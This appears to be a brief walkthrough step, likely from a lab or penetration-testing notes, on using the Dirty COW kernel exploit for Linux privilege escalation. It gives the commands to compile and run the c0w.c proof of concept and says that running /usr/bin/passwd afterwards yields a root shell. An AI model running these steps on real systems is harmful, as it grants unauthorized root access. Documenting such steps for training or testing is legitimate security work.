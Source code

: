 
https://dirtycow.ninja/

https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

Compile the code and run it (note that it may take several minutes to complete):
`gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w`
`./c0w`

Once the exploit completes, run /usr/bin/passwd to gain a root shell:
`/usr/bin/passwd`

